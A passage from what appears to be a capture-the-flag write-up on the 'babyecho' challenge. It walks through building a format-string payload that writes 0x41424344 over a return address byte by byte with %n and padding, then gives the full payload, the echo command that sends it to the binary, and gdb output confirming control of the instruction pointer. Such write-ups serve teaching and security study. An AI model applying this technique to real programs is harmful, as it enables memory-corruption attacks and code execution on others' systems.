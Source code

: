 What happens if we want to write four different bytes? Let's say we want 0x41424344...

In memory, 0x41424344 is "44 43 42 41". That means we have to write 44, then 43, then 42, then 41.

0x44 is easy. We know we're writing 16 bytes worth of addresses. To go from 16 to 0x44 (68) is 52 bytes. So we put "%52x%7$n" and our return address looks like this:

```

?? ?? ?? ?? [44 00 00 00] ?? ?? ?? ??
```

Next, we want to write 0x43 to the next address. We've already output 0x44 bytes, so to output a total of 0x43 bytes, we'll have to wrap around. 0x44 + 0xff (255) = 0x0143. So if we use "%255x%8$n", we'll write 0x0143 to the next address, which will give us the following:

```

?? ?? ?? ?? [44 43 01 00] 00 ?? ?? ??
```

Two things stick out here: first, there's a 0x01 that shouldn't be there. But that'll get overwritten so it doesn't matter. The second is that we've now written one byte \*past\* our address. That means we're killing a legitimate variable, which may cause problems down the road. Luckily, in this level it doesn't matter - sucks to be that variable!

All right, so we've done 0x44 and 0x43. Now we want 0x42. To go from 0x43 to 0x42 is once again 0xff (255) bytes, so we can do almost the same thing: "%255x%9$n". That'll make the total number of bytes printed 0x0242, and will make our return address:

```

?? ?? ?? ?? [44 43 42 02] 00 00 ?? ??
```

Finally, to go from 0x42 to 0x41, we need another 255 bytes, so we do the same thing one last time: "%255x%10$n", and our return address is now:

```

?? ?? ?? ?? [44 43 42 41] 03 00 00 ??
```

Putting that all together, we get:

```

'\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n'
```

We prepend our length-changer onto the front, and give it a whirl:

```

$ <span class="in">echo -e '\x91\xc6\xff\xff%99x%7$n\n''\x4c\xc1\xff\xff''\x4d\xc1\xff\xff''\x4e\xc1\xff\xff''\x4f\xc1\xff\xff''%52x%7$n''%255x%8$n''%255x%9$n''%255x%10$n' | ./babyecho > /dev/null</span>
Segmentation fault (core dumped)
$ <span class="in">gdb -q ./babyecho ./core</span>
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x41424344 in ?? ()
```
